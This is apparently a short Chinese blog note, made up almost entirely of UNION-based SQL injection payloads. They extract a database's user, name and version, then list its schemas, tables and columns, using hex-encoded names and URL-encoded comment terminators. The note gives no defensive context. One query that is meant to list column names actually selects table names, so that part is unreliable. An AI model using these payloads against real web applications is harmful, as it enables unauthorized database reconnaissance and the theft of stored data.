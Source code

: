 ```yaml
---
title: 查询重要数据的SQL语句
date: 2018-10-14 18:13:10
tags:
  - SQL
---
```



查询用户名，数据库名，数据库版本信息：

```sql
union select 1,2,(concat_ws(char(32,58,32),user(),database(),version())) %23
```

查询所有数据库名

```sql
union select 1,schema_name from information_schema.schemata
```

查询一个库中所有的表的名字

```sql
union select group_concat(char(32),table_name,char(32)) from information_schema.tables   where table_schema=0x7365637572697479  %23
```

注意。在系统自带的表中查东西，where后面的值应该是单引号包裹或者16进制编码，通常用16进制

```sql
union select 1,table_name from information_schema.tables where table_schema='my_db'
```

查询一个表中所有列的名字

```sql
union select group_concat(char(32),table_name,char(32)) from information_schema.COLUMNS   where table_schema=0x7365637572697479  %23

union select 1,column_name from information_schema.columns where table_schema='my_db'
```
